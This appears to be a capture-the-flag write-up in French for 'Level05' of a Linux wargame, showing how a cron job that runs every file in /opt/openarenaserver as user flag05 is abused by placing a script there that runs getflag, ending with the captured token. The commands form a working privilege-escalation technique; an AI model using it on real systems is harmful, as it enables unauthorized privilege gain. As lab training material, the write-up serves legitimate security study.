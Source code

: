 # Level05

- `cat /var/mail/level05`
```
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
- `cat /usr/sbin/openarenaserver`
```
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```
- On peut voir que le crontab execute tout les fichier se trouvant dans /opt/openarenaser/ en tant que flag05
- Donc on crée un script qui execute getflag
- `echo "getflag > /tmp/flag" > /opt/openarenaserver/run; cat /tmp/flag`
```
Check flag.Here is your token : viuaaale9huek52boumoomioc
```
